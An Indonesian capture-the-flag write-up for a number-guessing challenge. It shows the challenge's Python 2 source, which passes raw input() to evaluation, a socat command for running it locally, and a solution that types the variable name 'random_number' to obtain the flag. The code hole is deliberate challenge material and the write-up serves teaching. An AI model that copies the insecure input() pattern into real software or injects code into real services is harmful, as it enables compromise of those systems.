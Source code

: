 Tebak angka dapat Flag! Dicoba nih

```
nc  103.157.96.13 4251
```

#### Source

```python
#!/usr/bin/env python
import random

random_number = random.randint(0, 1337)
my_input = input()

print "Anda memilih : " + str(my_input) + ""
if my_input == random_number:
    print "Here is your flag : CTFR{REDACTED}"
else:
    print "Mimin memilih : " + str(random_number) + ""
```

#### Jalanin Dilocal
```
sudo socat tcp-listen:5555,reuseaddr,fork, exec:"./src.py",pty,setsid,setpgid,stderr,ctty
```

Dari source nya bisa dilihat, program menerima input yang tida difilter, di python 2 `input()` akan memproses apa saja yang kita inputkan tanpa memeriksa typenya, jadi kita bisa langsung menginputkan variable `random_number` sebagai inputan

```bash
$ nc localhost 5555
-= Tebak Angka dapat Hadiah =-
Tebak angka yang mimin taruh : random_number
Anda memilih : 664
Here is your flag : CTFR{REDACTED}
```